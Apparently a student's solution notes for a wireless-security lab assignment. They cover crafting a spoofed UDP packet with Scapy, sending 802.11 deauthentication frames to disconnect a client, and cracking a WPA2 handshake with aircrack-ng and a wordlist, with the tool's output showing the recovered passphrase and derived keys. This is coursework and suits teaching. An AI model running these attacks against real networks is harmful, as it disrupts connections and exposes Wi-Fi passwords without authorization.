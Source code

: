 TODO: rename to .txt

# Assignment 2
## task2-solution:
- Set up a UDP server using nc
	- find own ip address using `ifconfig`
	- `nc -ulp 53`

- Construct UDP datagram
	- `send(IP(src="192.168.0.1", dst="10.0.2.15") / UDP(sport=53,dport=53) / Raw(load="hello world!\n"), count=1)`
	- `IP()` sets router as source and localhost as destination
	- `UDP()` sets source and destination ports (chosen arbitrarily)
	- `Raw()` specifies payload
	- `count` specifies number of packages to send
	- `send()` sends the package.
	- one could also construct package declaring variables, i.e. `a=IP() / a.src="192.168.0.1" / b=UDP(...) / send(a/b/c)`


## task3-solution:
- deauthentication attack
	- find access point MAC address using `arp -a`	-> `ap = "..."`
	- find client MAC address via "about phone" in android settings -> `client = "..."`
	- `deauth_frame = Dot11(addr1=ap, addr2=client, addr3=ap) / Dot11Deauth()`
	- `send(deauth_frame, count=10000)` (or using for loop and `time.sleep(t_in_sec)`)

	- was not able to disconnect phone (maybe due to vm configuration?)
	- but `wireshark(deauth_frame)` classiefies packet correctly as "IEEE 802.11 Deauthentication" 
	

 ## task4-solution:
 a 
 	- there is no handshake captured so we can't crack the pw.
	
 b
 	-
	
 c
 	-
	
	
 ## task5-solution:
 -a 
 	- having captured an handshake, ist possible to get the password by using a dictionary with the password in it.
	- found key: `Induction`
	
 -b
 	- command: - aircrack-ng -w  wordlist.txt wpa2-handshake.pcap
	
	-	#  BSSID              ESSID                     Encryption

   		1  00:0C:41:82:B2:55  Coherer                   WPA (1 handshake, with PMKID)
   		2  65:78:F7:B7:30:84                            Unknown
   		3  65:78:F7:B7:60:A9                            Unknown
   		4  81:F8:47:33:56:BB                            Unknown
   		5  92:F3:65:74:D2:DB                            Unknown
   		6  98:D3:04:64:FA:55                            WPA (0 handshake)
   		7  F4:9F:8F:EA:7B:E6                            Unknown
   		8  FF:FF:FF:FF:FF:3F                            WEP (1 IVs)
		

	- select target `#1` with captured handshake and run the attack:

 - output:      [00:02:09] 3545201/3545298 keys tested (27800.50 k/s) 

      	Time left: 0 seconds                                     100.00%

                           KEY FOUND! [ Induction ]


      	Master Key     : 85 D8 68 B2 7A A9 42 93 07 EA B5 CA C0 55 B9 D8 
                       09 BE A6 0D E4 C7 0D 94 CD 2B D0 E2 46 87 3E 04 

      	Transient Key  : 8F 7F 07 90 A1 8D 75 67 45 ED 23 13 C3 63 5C 4D 
                       80 36 6F 46 94 C1 21 87 C5 C9 6C D9 C1 7B F4 76 
                       2F 58 2D 32 41 47 70 4C 93 E6 3F AB D9 CC E2 A2 
                       A1 92 83 D1 07 88 62 44 82 5A D6 48 AD 24 FF B3 

      	EAPOL HMAC     : 44 B9 F6 30 2A 9B AB 15 53 EB A7 E8 8D 5D 0C 1A `

	
 c
 	
	- GTK: ee22041a83853263474c38811352282071c122359b7c35a7e7d034f3cd6ac565
	
	- KCK: b1cd792716762903f723424cd7d16511
	
	- KEK: 82a644133bfa4e0b75d96d2308358433
	
	- TK:  PTK is needed for calulating the TK!
	
	- PMK: A288FCF0CAAACDA9A9F58633FF35E8992A01D9C10BA5E02EFDF8CB5D730CE7BC
	
